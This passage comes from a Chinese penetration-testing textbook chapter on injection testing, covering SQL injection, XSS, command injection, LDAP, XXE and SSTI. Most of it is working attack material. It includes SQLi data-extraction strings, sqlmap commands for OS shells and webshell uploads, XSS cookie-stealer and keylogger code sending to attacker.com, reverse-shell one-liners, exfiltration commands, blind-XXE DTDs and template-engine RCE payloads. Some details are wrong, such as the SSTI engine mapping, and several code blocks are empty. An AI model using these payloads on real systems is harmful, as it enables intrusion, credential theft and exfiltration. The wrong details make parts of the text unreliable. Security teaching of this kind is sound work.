

## 14.15 注入漏洞测试技巧

注入攻击连续多年位居 OWASP Top 10 榜首。其本质是**应用将不可信的用户输入当作代码或命令的一部分来执行**，导致攻击者能够操纵后端解释器的行为。掌握注入漏洞的测试技巧，是 Web 安全测试中最核心、最基础的能力。

本节覆盖实际渗透测试中最常遇到的注入类型：SQL 注入、XSS、命令注入、LDAP 注入、XML 注入（XXE）、SSTI 模板注入、HTTP Header 注入与路径遍历。每种注入类型均从原理、检测方法、绕过技巧、自动化工具、防御方案五个维度展开。

### 14.15.1 SQL 注入

SQL 注入（SQLi）是注入类漏洞中影响最广泛、危害最严重的一种。当应用将用户输入直接拼接到 SQL 语句中时，攻击者可以通过构造特殊输入来改变原始 SQL 的语义，从而实现数据窃取、身份冒充、甚至远程代码执行。

#### 14.15.1.1 SQL 注入的分类

根据注入方式和数据回显特征，SQL 注入可分为以下几类：

| 类型 | 特征 | 典型场景 | 难度 |
|------|------|----------|------|
| **联合查询注入（Union-based）** | 页面有数据回显点 | 查询结果直接展示在页面上 | 低 |
| **报错注入（Error-based）** | 页面显示数据库错误信息 | 错误信息未被屏蔽 | 低 |
| **布尔盲注（Boolean-based blind）** | 页面根据条件返回不同内容 | 无直接数据回显，但页面有真假状态差异 | 中 |
| **时间盲注（Time-based blind）** | 通过响应延迟判断条件真假 | 页面无任何数据回显差异 | 中 |
| **堆叠查询（Stacked queries）** | 可执行多条 SQL 语句 | 数据库驱动允许多语句执行（如 MSSQL、PostgreSQL） | 中 |
| **带外注入（Out-of-band）** | 通过 DNS/HTTP 外带数据 | 无回显、无延迟差异，但数据库可发起网络请求 | 高 |
| **二次注入（Second-order）** | 输入存入数据库后在另一处触发 | 注册用户名存入数据库，后续查询时触发 | 高 |

#### 14.15.1.2 手动检测流程

**第一步：识别注入点**

测试所有用户可控的输入位置，包括 URL 参数、POST 表单字段、Cookie、HTTP Header（Referer、User-Agent、X-Forwarded-For）、JSON/XML 请求体等。

```yaml
# URL 参数注入点
http://target.com/page?id=1'

# POST 表单注入点
username=admin'&password=test

# HTTP Header 注入点
User-Agent: Mozilla/5.0' OR 1=1--
X-Forwarded-For: 127.0.0.1'
```

**第二步：判断注入类型**

通过闭合字符和逻辑运算符判断是否存在注入：

```text
# 闭合字符测试
'          → 页面报错或异常
''         → 页面恢复正常（字符型注入）
"          → 页面报错或异常
""         → 页面恢复正常
)          → 测试括号闭合
'))        → 测试多层括号闭合

# 逻辑判断测试
?id=1 AND 1=1  → 页面正常
?id=1 AND 1=2  → 页面异常（数字型注入）
?id=1' AND '1'='1  → 页面正常
?id=1' AND '1'='2  → 页面异常（字符型注入）
```

**第三步：确定字段数（Union 注入）**

```sql
?id=1 ORDER BY 1--      → 正常
?id=1 ORDER BY 5--      → 正常
?id=1 ORDER BY 10--     → 报错（说明字段数 < 10）
?id=1 ORDER BY 7--      → 正常
?id=1 ORDER BY 8--      → 报错（字段数 = 7）

-- 二分法更高效：直接从中间值开始测试
```

**第四步：构造联合查询**

```sql
-- MySQL 联合查询
?id=-1 UNION SELECT 1,2,3,4,5,6,7--
?id=-1 UNION SELECT 1,group_concat(table_name),3,4,5,6,7
    FROM information_schema.tables
    WHERE table_schema=database()--

-- 查询列名
?id=-1 UNION SELECT 1,group_concat(column_name),3,4,5,6,7
    FROM information_schema.columns
    WHERE table_name='users'--

-- 提取数据
?id=-1 UNION SELECT 1,group_concat(username,0x3a,password),3,4,5,6,7
    FROM users--
```

**第五步：报错注入（当页面显示错误信息时）**

```sql
-- MySQL 报错注入
?id=1' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- 
?id=1' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)--
?id=1' AND (SELECT 1 FROM (SELECT count(*),concat(database(),floor(rand(0)*2))x
    FROM information_schema.tables GROUP BY x)a)--

-- PostgreSQL 报错注入
?id=1' AND 1=cast((SELECT database()) as int)--

-- MSSQL 报错注入
?id=1' AND 1=convert(int,(SELECT db_name()))--
```

**第六步：布尔盲注（无数据回显时）**

```sql
-- 逐字符判断数据库名长度
?id=1' AND length(database())=8--     → 正常（数据库名长度为 8）
?id=1' AND length(database())=9--     → 异常

-- 逐字符爆破数据库名
?id=1' AND ascii(substr(database(),1,1))>115--  → 二分法逐字符判断
?id=1' AND ascii(substr(database(),1,1))=115--  → 第一个字符 ASCII 为 115（'s'）
```

**第七步：时间盲注（页面无任何差异时）**

```sql
-- MySQL 时间盲注
?id=1' AND IF(ascii(substr(database(),1,1))>115,SLEEP(5),0)--
?id=1' AND IF((SELECT count(*) FROM users)>0,SLEEP(5),0)--

-- PostgreSQL 时间盲注
?id=1'; SELECT CASE WHEN (ascii(substr(database(),1,1))>115)
    THEN pg_sleep(5) ELSE pg_sleep(0) END;--

-- MSSQL 时间盲注
?id=1'; IF (ascii(substring(db_name(),1,1))>115) WAITFOR DELAY '0:0:5'--
```

**第八步：带外注入（OOB，最隐蔽的方式）**

```sql
-- MySQL 带外（需 secure_file_priv 为空或指定目录）
?id=1' INTO OUTFILE '\\\\attacker.com\\share\\data.txt'--

-- MSSQL 带外（最常用）
?id=1'; EXEC master..xp_dirtree '\\\\attacker.com\\share'--
?id=1'; EXEC master..xp_fileexist '\\\\attacker.com\\share\\test.txt'--

-- Oracle 带外
?id=1' AND utl_http.request('http://attacker.com/'||(SELECT user FROM dual))--

-- PostgreSQL 带外（需 dblink 扩展）
?id=1'; CREATE EXTENSION dblink;
    SELECT * FROM dblink('host=attacker.com user=test password=test',
    'SELECT database()') RETURNS (result text);--
```

#### 14.15.1.3 SQLMap 高级用法

SQLMap 是 SQL 注入测试的黄金标准工具，掌握其高级用法能大幅提升测试效率：

```bash
# 基础扫描
sqlmap -u "http://target.com/page?id=1" --batch

# 从 Burp Suite 抓包文件开始测试（最常用方式）
sqlmap -r request.txt --batch --level=3 --risk=2

# 指定注入技术
sqlmap -r request.txt --technique=BEUST  # B:布尔 E:报错 U:联合 S:堆叠 T:时间

# 绕过 WAF 的 tamper 脚本组合
sqlmap -r request.txt --tamper=space2comment,between,randomcase,charencode

# 常用 tamper 脚本说明
# space2comment    → 空格替换为 /**/（绕过空格过滤）
# between          → > 替换为 BETWEEN，= 替换为 LIKE（绕过比较符过滤）
# randomcase       → 随机大小写（绕过关键字大小写检测）
# charencode       → URL 编码（绕过编码检测）
# greatest         → > 替换为 GREATEST（绕过比较符过滤）
# ifnull2ifisnull  → IFNULL 替换为 IF(ISNULL())（绕过函数过滤）
# equaltolike      → = 替换为 LIKE（绕过等号过滤）
# space2plus       → 空格替换为 +（绕过空格过滤）

# 伪造 HTTP Header（绕过 IP/Referer 检测）
sqlmap -r request.txt --random-agent --proxy="http://127.0.0.1:8080"

# 指定数据库类型（跳过指纹识别，加快速度）
sqlmap -r request.txt --dbms=mysql

# 二次注入测试
sqlmap -r request.txt --second-url="http://target.com/profile"

# 自定义注入点（标记 * 号为注入位置）
sqlmap -u "http://target.com/page?id=1*&name=test" --prefix="'" --suffix="--"

# OS Shell（终极利用，需 DBA 权限）
sqlmap -r request.txt --os-shell
sqlmap -r request.txt --os-cmd="whoami"

# 读取服务器文件
sqlmap -r request.txt --file-read="/etc/passwd"

# 写入文件（Webshell）
sqlmap -r request.txt --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# 脱裤（dump 整个数据库）
sqlmap -r request.txt -D target_db --dump-all --threads=10

# 指定表脱裤
sqlmap -r request.txt -D target_db -T users --dump --columns="username,password"
```

#### 14.15.1.4 各数据库差异速查

不同数据库的语法差异直接影响注入 Payload 的构造。以下是主要数据库的关键差异：

| 特性 | MySQL | PostgreSQL | MSSQL | Oracle | SQLite |
|------|-------|------------|-------|--------|--------|
| 注释符 | `-- ` `#` | `-- ` | `-- ` | `-- ` | `-- ` |
| 字符串连接 | `CONCAT()` | `\|\|` | `+` | `\|\|` | `\|\|` |
| 当前数据库 | `database()` | `current_database()` | `db_name()` | `SELECT ora_database_name FROM dual` | — |
| 版本查询 | `@@version` | `version()` | `@@version` | `SELECT banner FROM v$version` | `sqlite_version()` |
| 延时函数 | `SLEEP(n)` | `pg_sleep(n)` | `WAITFOR DELAY '0:0:n'` | `DBMS_PIPE.RECEIVE_MESSAGE('a',n)` | — |
| 列名查询 | `information_schema.columns` | `information_schema.columns` | `information_schema.columns` | `all_tab_columns` | `pragma_table_info()` |
| 堆叠查询 | 默认不支持 | 支持 | 支持 | 支持 | 支持 |
| 文件读取 | `LOAD_FILE()` | `pg_read_file()` | `OPENROWSET(BULK...)` | `UTL_FILE` | — |

#### 14.15.1.5 常见绕过技巧

**绕过单引号过滤：**

```sql
-- 宽字节注入（MySQL GBK 编码）
?id=%bf' AND 1=1--  → %bf%27 → 会被 GBK 解码为一个汉字，单引号逃逸

-- 数字型注入（不需要引号）
?id=1 AND 1=1--
?id=1 AND ascii(substr(database(),1,1))>115

-- 使用 CHAR() 函数代替引号
?id=1 AND 1=1 UNION SELECT 1,table_name FROM information_schema.tables
    WHERE table_schema=CHAR(116,101,115,116)--
```

**绕过关键字过滤：**

```sql
-- 内联注释绕过
?id=1' /*!UNION*/ /*!SELECT*/ 1,2,3--    → MySQL 特有

-- 双写绕过
?id=1' UNIunionON SELselectECT 1,2,3--   → 过滤后变成 UNION SELECT

-- 大小写混合
?id=1' uNiOn SeLeCt 1,2,3--

-- 编码绕过
?id=1' %55%4e%49%4f%4e %53%45%4c%45%43%54 1,2,3--  → URL 编码
```

**绕过空格过滤：**

```sql
-- 注释符替代空格
?id=1'/**/UNION/**/SELECT/**/1,2,3--

-- 括号替代空格
?id=1'UNION(SELECT(1),(2),(3))--

-- 换行符替代空格
?id=1'%0aUNION%0aSELECT%0a1,2,3--

-- 制表符替代空格
?id=1'%09UNION%09SELECT%091,2,3--
```

#### 14.15.1.6 测试误区与注意事项

1. **不要只测试 GET 参数**：POST 表单、Cookie、HTTP Header 都是注入点，尤其是 X-Forwarded-For 和 Referer 常被忽略
2. **不要盲目跑 SQLMap**：先手动确认注入类型，再用工具提升效率，否则容易漏报或触发 WAF
3. **注意闭合方式**：单引号、双引号、括号的闭合方式因应用而异，必须逐一测试
4. **二次注入不能自动化**：需要理解业务逻辑，手动在一处存储恶意数据，在另一处触发
5. **注意数据量**：`group_concat()` 有长度限制，大量数据需要用 `LIMIT` 分段提取

---

### 14.15.2 XSS（跨站脚本攻击）

XSS 允许攻击者在受害者的浏览器中执行恶意 JavaScript。与 SQL 注入攻击服务器不同，XSS 的攻击目标是**用户浏览器**。XSS 可用于窃取 Cookie、会话劫持、钓鱼、键盘记录、挖矿，甚至结合社会工程实现更高级的攻击。

#### 14.15.2.1 XSS 的三种类型

| 类型 | 数据入口 | 触发方式 | 持久性 | 危害等级 |
|------|----------|----------|--------|----------|
| **反射型 XSS** | URL 参数、表单提交 | 用户点击恶意链接 | 非持久 | 中 |
| **存储型 XSS** | 数据库、文件系统 | 用户访问包含恶意数据的页面 | 持久 | 高 |
| **DOM XSS** | URL Fragment、表单 | JavaScript 处理 DOM 时触发 | 非持久 | 中-高 |
| **Mutation XSS（mXSS）** | 任意输入 | 浏览器解析/序列化时变异为可执行代码 | 可持久 | 高 |

#### 14.15.2.2 基础检测 Payload

```html
<!-- 最简单的测试 -->
<script>alert('XSS')</script>
<script>alert(document.domain)</script>

<!-- 事件处理属性触发 -->

<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<details open ontoggle=alert('XSS')>
<marquee onstart=alert('XSS')>
<video><source onerror=alert('XSS')>
<audio src=x onerror=alert('XSS')>
<iframe src="javascript:alert('XSS')">

<!-- 标签闭合注入 -->
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
">
```

#### 14.15.2.3 WAF/过滤器绕过技巧

**绕过 script 标签过滤：**

```html
<!-- 不使用 script 标签的 XSS -->

<svg/onload=alert('XSS')>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<marquee onstart=alert('XSS')>
<video poster=javascript:alert('XSS')//>
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
<a href="javascript:alert('XSS')">click</a>
<math><mtext><table><mglyph><svg><mtext><textarea><path id="</textarea>">
```

**绕过事件处理器过滤：**

```html
<!-- 大小写绕过 -->

<ScRiPt>alert('XSS')</ScRiPt>

<!-- 编码绕过 -->


<!-- 双写绕过 -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>


<!-- 利用 HTML5 新标签 -->
<details open ontoggle=alert('XSS')>
<dialog open onclose=alert('XSS')>
```

**绕过引号过滤：**

```html
<!-- 不使用引号 -->


<!-- 使用 Unicode/Hex 编码 -->
<a href="javascript:\u0061lert('XSS')">click</a>
<a href="javascript:\x61lert('XSS')">click</a>

<!-- 利用 eval + 字符串构造 -->


```

**绕过长度限制：**

```html
<!-- 极短 XSS Payload -->
<svg/onload=alert()>
<a href=javascript:alert()>x</a>
<input onfocus=alert() autofocus>
<details open ontoggle=alert()>

<!-- 外部加载绕过长度限制 -->
<script src=//attacker.com/xss.js></script>

```

#### 14.15.2.4 DOM XSS 深度测试

DOM XSS 的关键在于识别**数据源（Source）**和**危险汇（Sink）**的交互路径：

**常见 Source：**
```javascript
document.URL
document.documentURI
document.referrer
document.baseURI
location.href / location.search / location.hash
window.name
postMessage 数据
```

**常见 Sink：**
```javascript
eval()
setTimeout() / setInterval()
document.write() / document.writeln()
innerHTML / outerHTML
insertAdjacentHTML()
element.src / element.href
element.setAttribute('onclick', ...)
$.html() / $.append()（jQuery）
```

**测试方法：**

```javascript
// 在浏览器控制台监控 Source → Sink 的数据流
// 方法 1：Hook eval
const originalEval = eval;
eval = function(code) {
    console.log('eval called with:', code);
    return originalEval(code);
};

// 方法 2：Hook innerHTML
const desc = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML');
Object.defineProperty(Element.prototype, 'innerHTML', {
    set: function(value) {
        console.log('innerHTML set to:', value);
        desc.set.call(this, value);
    }
});

// 方法 3：使用 DOM Invader（Burp Suite 内置）自动追踪
```

**经典 DOM XSS 场景：**

```html
<!-- 场景 1：hash 直接写入 innerHTML -->
<script>
  var name = location.hash.substring(1);
  document.getElementById('greeting').innerHTML = 'Hello ' + name;
</script>
<!-- 攻击：http://target.com/# -->

<!-- 场景 2：eval 执行 URL 参数 -->
<script>
  var config = JSON.parse(decodeURIComponent(location.search.substring(1)));
  eval(config.callback);
</script>
<!-- 攻击：http://target.com/?{"callback":"alert(1)"} -->

<!-- 场景 3：document.write 输出 referrer -->
<script>
  document.write('');
</script>
<!-- 攻击：设置恶意 referrer 头 -->
```

#### 14.15.2.5 XSS 利用进阶

```javascript
// Cookie 窃取
new Image().src = 'https://attacker.com/steal?c=' + document.cookie;

// 键盘记录器
document.addEventListener('keypress', function(e) {
    new Image().src = 'https://attacker.com/log?k=' + e.key;
});

// BeEF Hook（Browser Exploitation Framework）
var beef = document.createElement('script');
beef.src = 'http://attacker.com:3000/hook.js';
document.body.appendChild(beef);

// 页面截图（利用 html2canvas）
// 通过 XSS 注入外部脚本，将页面内容编码为图片发送到攻击者服务器

// Session 劫持（非 HttpOnly Cookie）
// 直接读取 Cookie 并发送到攻击者控制的服务器
```

#### 14.15.2.6 XSS 测试工具

| 工具 | 类型 | 适用场景 |
|------|------|----------|
| **Burp Suite** + DOM Invader | 商业（社区版免费） | 全链路 XSS 测试，DOM XSS 自动追踪 |
| **XSStrike** | 开源 Python | 自动化 XSS 检测，支持 WAF 绕过 |
| **Dalfox** | 开源 Go | 高速参数分析和 XSS 扫描 |
| **XSSer** | 开源 Python | 自动绕过过滤器 |
| **KXSS** | 开源 Go | 快速发现反射型 XSS 候选点 |

```bash
# XSStrike 使用示例
xsstrike -u "http://target.com/page?q=test"
xsstrike -u "http://target.com/page?q=test" --crawl --blind=http://attacker.com/xss-callback

# Dalfox 使用示例
dalfox url "http://target.com/page?q=test" --blind=attacker.com
dalfox file urls.txt --blind=attacker.com

# KXSS + Gau/Gospider 联动（发现候选点后手动验证）
gau target.com | grep "=" | kxss
```

#### 14.15.2.7 测试误区

1. **只测反射型，忽略存储型**：存储型 XSS 危害更大，需要测试所有持久化输入（评论、个人资料、文件名等）
2. **不理解 CSP**：Content-Security-Policy 可以有效缓解 XSS，测试时需要检查 CSP 配置并尝试绕过
3. **忽略 HttpOnly Cookie**：如果 Cookie 设置了 HttpOnly 标志，无法通过 document.cookie 读取，但 XSS 仍然可以执行其他操作
4. **DOM XSS 被遗漏**：很多扫描器无法检测 DOM XSS，必须结合手动代码审计或 Burp DOM Invader
5. **误报**：反射型 XSS Payload 被 HTML 实体编码后不构成威胁，需要确认 Payload 是否真的被执行

---

### 14.15.3 命令注入

命令注入（OS Command Injection）发生在应用将用户输入传递给操作系统命令执行时。攻击者可以通过注入 Shell 命令实现任意代码执行，是危害等级最高的漏洞之一（CVSS 通常 9.0+）。

#### 14.15.3.1 命令注入成因

```python
# 典型的危险代码（Python 示例）
import os
ip = request.args.get('ip')
os.system('ping -c 4 ' + ip)  # 直接拼接，存在命令注入

# 安全写法：使用参数化调用
import subprocess
subprocess.run(['ping', '-c', '4', ip])  # 参数列表方式，不经过 Shell 解析
```

```php
// PHP 中的危险写法
$ip = $_GET['ip'];
$output = shell_exec('ping -c 4 ' . $ip);  // 直接拼接

// 安全写法
$output = shell_exec(escapeshellcmd('ping -c 4 ' . $ip));
// 或使用参数化
$proc = proc_open(['ping', '-c', '4', $ip], $descriptors, $pipes);
```

#### 14.15.3.2 命令连接符与注入方式

```bash
# === 命令连接符 ===
; ls -la           # 顺序执行（无论前一条是否成功）
| ls -la           # 管道（前一条的输出作为后一条的输入）
|| ls -la          # 前一条失败时执行后一条
&& ls -la          # 前一条成功时执行后一条
`ls -la`           # 反引号（命令替换，输出嵌入当前位置）
$(ls -la)          # 管道命令替换（与反引号等效，但可嵌套）

# === 换行符注入 ===
ip=127.0.0.1%0als -la    # %0a 换行符，直接开始新命令

# === Windows 命令连接符 ===
& dir              # 顺序执行
&& dir             # 前一条成功时执行
| dir              # 管道
|| dir             # 前一条失败时执行
```

#### 14.15.3.3 不回显情况下的检测

当命令执行结果不回显到页面时，需要使用盲注技术：

```bash
# 时间盲注
; sleep 10               # Linux，有延迟说明注入成功
| sleep 10
& ping -c 10 127.0.0.1   # 通用方式
| timeout /t 10           # Windows

# DNS 外带数据（最可靠的盲注方式）
; nslookup `whoami`.attacker.com
| nslookup $(cat /etc/passwd | head -1).attacker.com
& nslookup %USERNAME%.attacker.com    # Windows

# HTTP 外带数据
; curl http://attacker.com/$(whoami)
| wget http://attacker.com/$(cat /etc/hostname)
; python3 -c "import urllib.request;urllib.request.urlopen('http://attacker.com/'+__import__('os').popen('id').read())"

# 利用 Burp Collaborator
; nslookup `whoami`.burpcollaborator.net
| ping -c 1 `whoami`.burpcollaborator.net
```

#### 14.15.3.4 常见危险函数

不同语言和框架中存在命令执行的函数，测试时需要识别目标使用的函数类型：

| 语言 | 危险函数 | 说明 |
|------|----------|------|
| **PHP** | `system()`, `exec()`, `passthru()`, `shell_exec()`, `popen()`, `proc_open()`, `` ` ` `` 反引号 | 直接执行系统命令 |
| **Python** | `os.system()`, `os.popen()`, `subprocess.Popen(shell=True)`, `subprocess.call(shell=True)` | Shell 模式下执行命令 |
| **Java** | `Runtime.exec()`, `ProcessBuilder` | 执行系统命令 |
| **Node.js** | `child_process.exec()`, `child_process.execSync()`, `child_process.spawn()` | exec 使用 Shell，spawn 不使用 |
| **Ruby** | `system()`, `` ` ` ``, `exec()`, `Open3.capture2()` | 执行系统命令 |

#### 14.15.3.5 绕过技巧

**绕过空格过滤：**

```bash
# 用花括号代替空格
{ls,-la}

# 用 $IFS 变量（默认为空格/制表符/换行符）
ls${IFS}-la
cat${IFS}/etc/passwd

# 用 Tab 字符（%09）
ls%09-la

# 用 $IFS$9
cat$IFS$9/etc/passwd
```

**绕过关键字过滤：**

```bash
# 通配符绕过
cat /etc/pass??          # ? 匹配单个字符
cat /etc/p*d             # * 匹配任意字符
/bin/ca? /etc/passwd     # 用绝对路径+通配符

# 变量拼接
a=who; b=ami; $a$b      # 拼接后执行 whoami
a=/etc/b;b=passwd;cat $a/$b

# Base64 编码绕过
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash
bash -c "{echo,Y2F0IC9ldGMvcGFzc3dk}|{base64,-d}|{bash,-i}"

# 十六进制绕过
echo -e "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" | bash
$(printf "\x63\x61\x74") /etc/passwd

# 单引号/双引号绕过
c'a't /etc/pass'wd'
c"a"t /etc/pa"ss"wd

# 反斜杠绕过
ca\t /etc/pass\wd
wh\o\am\i
```

**绕过命令禁用：**

```bash
# 利用环境变量 $PATH 构造命令
${PATH:0:1}etc${PATH:0:1}passwd    # 替换 / 为 ${PATH:0:1}

# 利用通配符执行 /bin 目录下的命令
/usr/bin/b?? /etc/passwd           # cat 的通配符
/usr/bin/c?t /etc/passwd

# 利用已安装的解释器
python3 -c "import os;os.system('cat /etc/passwd')"
perl -e 'system("cat /etc/passwd")'
ruby -e 'system("cat /etc/passwd")'
lua -e 'os.execute("cat /etc/passwd")'
awk 'BEGIN {system("cat /etc/passwd")}'
find / -name "*.conf" -exec cat {} \;   # find 的 -exec 功能
```

#### 14.15.3.6 反弹 Shell

获得命令注入后，反弹 Shell 是建立持久交互式访问的标准方式：

```bash
# Bash 反弹（最常用）
bash -i >& /dev/tcp/attacker.com/4444 0>&1

# Python 反弹
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

# Netcat 反弹
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc attacker.com 4444 >/tmp/f

# PHP 反弹
php -r '$sock=fsockopen("attacker.com",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

# Socat 反弹（功能最强）
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker.com:4444

# MSF Venom 生成反弹 Shell Payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f elf > shell.elf
```

**监听端：**

```bash
# Netcat 监听
nc -lvnp 4444

# Socat 监听（支持 SSL）
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

---

### 14.15.4 LDAP 注入

LDAP（轻量级目录访问协议）注入发生在应用将用户输入直接嵌入 LDAP 查询过滤器时。常见于企业内部的身份认证系统（Active Directory、OpenLDAP）。

#### 14.15.4.1 LDAP 语法基础

```text
# LDAP 过滤器语法
(&(objectClass=user)(sAMAccountName=admin))    → 查找 admin 用户
(|(objectClass=user)(objectClass=group))       → 查找用户或组
(!(objectClass=computer))                       → 排除计算机

# 过滤器中的特殊字符
* ( ) \ & | = < > ~ ! /
```

#### 14.15.4.2 注入测试

```text
# 绕过认证（注释掉密码过滤器）
用户名: admin)(&)
密码: 任意
→ 完整过滤器: (&(user=admin)(&))(password=xxx)  → 密码部分被忽略

# 绕过认证（利用 | 运算符）
用户名: *)(|(uid=*
密码: *)
→ 完整过滤器: (&(uid=*)(|(uid=*))(|(password=*))  → 匹配所有用户

# 绕过密码检查
用户名: admin)(!(&(1=0
密码: 任意
→ 利用逻辑运算使密码过滤器始终为真

# 通配符爆破
用户名: a*      → 测试以 a 开头的用户
用户名: adm*    → 测试以 adm 开头的用户
```

#### 14.15.4.3 防御方案

```python
# 对用户输入进行 LDAP 特殊字符转义
import ldap3

def escape_ldap_filter(value):
    """转义 LDAP 过滤器中的特殊字符"""
    escape_chars = {
        '\\': r'\5c', '*': r'\2a', '(': r'\28', ')': r'\29',
        '\x00': r'\00'
    }
    for char, escaped in escape_chars.items():
        value = value.replace(char, escaped)
    return value

# 使用参数化 LDAP 查询（推荐）
safe_username = escape_ldap_filter(username)
search_filter = f'(&(objectClass=user)(sAMAccountName={safe_username}))'
```

---

### 14.15.5 XML 注入（XXE）

XXE（XML External Entity）注入利用 XML 解析器对外部实体的支持，可实现文件读取、SSRF、拒绝服务等攻击。

#### 14.15.5.1 基础 XXE 攻击

```xml
<!-- 读取服务器文件 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>

<!-- SSRF 攻击 -->
<!DOCTYPE foo [
  <!ENTITY ssrf SYSTEM "http://internal-server:8080/admin">
]>
<root><data>&ssrf;</data></root>

<!-- 拒绝服务（Billion Laughs Attack） -->
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- 递归指数级膨胀，第 10 层可达 10^9 字节 -->
]>
<data>&lol3;</data>
```

#### 14.15.5.2 带外 XXE（Blind XXE）

当 XML 解析结果不回显时，需要通过外带方式获取数据：

```xml
<!-- 方法 1：通过外部 DTD 参数实体外带 -->
<!-- 攻击者服务器上的 evil.dtd 内容：
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
  %exfil;
-->

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<root>test</root>

<!-- 方法 2：通过 FTP 外带（绕过 HTTP 出网限制） -->
<!-- evil.dtd:
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'ftp://attacker.com:2121/%file;'>">
  %eval;
  %exfil;
-->
```

#### 14.15.5.3 XXE 利用进阶

```xml
<!-- 读取 PHP 源码（利用 base64 编码绕过 XML 解析限制） -->
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<root><data>&xxe;</data></root>

<!-- 利用 Jar 协议触发 Java 反序列化 -->
<!ENTITY xxe SYSTEM "jar:http://attacker.com/evil.jar!/payload.class">

<!-- 利用 XInclude 攻击（当无法控制完整 XML 时） -->
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>

<!-- 利用 XSLT 注入（当应用使用 XSLT 转换时） -->
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="document('file:///etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### 14.15.5.4 XXE 测试工具

```bash
# XXEinjector（Ruby 工具）
ruby XXEinjector.rb --host=attacker.com --httpport=8080 --file=request.xml

# OOB-XXE（自动化 blind XXE 测试）
python3 oob-xxe.py -u "http://target.com/api/xml" -p xml_data

# Burp Suite 内置的 XXE 扫描器（Scanner 版本自动检测）
```

---

### 14.15.6 服务端模板注入（SSTI）

SSTI 发生在应用将用户输入直接嵌入服务端模板引擎时。相比 XSS，SSTI 可直接在服务器上执行代码，危害等级更高。

#### 14.15.6.1 快速检测 Payload

```text
# 通用检测（用于确认是否存在 SSTI）
{{7*7}}          → 返回 49 表示 Jinja2/Twig
${7*7}           → 返回 49 表示 FreeMarker/Mako
#{7*7}           → 返回 49 表示 Ruby ERB
<%= 7*7 %>       → 返回 49 表示 ASP.NET Razor
{{7*'7'}}        → 返回 7777777 表示 Jinja2，返回 49 表示 Twig
```

#### 14.15.6.2 主流模板引擎 RCE Payload

**Jinja2（Python Flask）：**

```python
# 读取配置
{{config.items()}}
{{self.__dict__}}

# RCE Payload
{{''.__class__.__mro__[2].__subclasses__()}}
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{lipsum.__globals__['os'].popen('id').read()}}
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

**Twig（PHP）：**

```python
# 读取文件
{{_self.env.registerUndefinedFilterCallback("system")}}
{{_self.env.getFilter("id")}}

# RCE
{{['id']|filter('system')}}
{{['cat /etc/passwd']|filter('system')}}
```

**FreeMarker（Java）：**

```text
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("id")}

<#assign classLoader=object?api.class.protectionDomain.classLoader>
<#assign clazz=classLoader.loadClass("exposePlaceholder")>
```

#### 14.15.6.3 SSTI 识别决策树

```text
输入 {{7*7}} 后：
